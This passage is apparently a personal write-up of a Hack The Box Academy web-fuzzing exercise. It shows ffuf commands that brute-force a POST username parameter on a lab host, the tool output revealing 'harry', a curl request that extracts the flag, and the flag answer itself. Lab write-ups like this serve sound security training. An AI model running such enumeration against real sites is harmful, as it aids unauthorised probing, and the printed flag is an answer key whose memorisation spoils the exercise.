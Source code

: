 `ffuf -w /usr/share/seclists/Usernames/Names/names.txt:FUZZ -u http://faculty.academy.htb:34474/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250129170957.png)

Got to filter for size 781: 

`ffuf -w /usr/share/seclists/Usernames/Names/names.txt:FUZZ -u http://faculty.academy.htb:34474/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 781 -ic -c -t 200`

After a while, we get the following:

```
ffuf -w /usr/share/seclists/Usernames/Names/names.txt:FUZZ -u http://faculty.academy.htb:34474/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 781 -ic -c -t 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://faculty.academy.htb:34474/courses/linux-security.php7
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 781
________________________________________________

harry                   [Status: 200, Size: 773, Words: 218, Lines: 53, Duration: 77ms]
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250129171107.png)
Got the answer: `harry`, let's use curl and get the flag:

`curl http://faculty.academy.htb:34474/courses/linux-security.php7 -X POST -d 'username=harry' -H 'Content-Type: application/x-www-form-urlencoded' -s | grep HTB{`


We get the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250129171237.png)

Answer is: `HTB{w3b_fuzz1n6_m4573r}`


Just like that, module is done!


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250129171314.png)

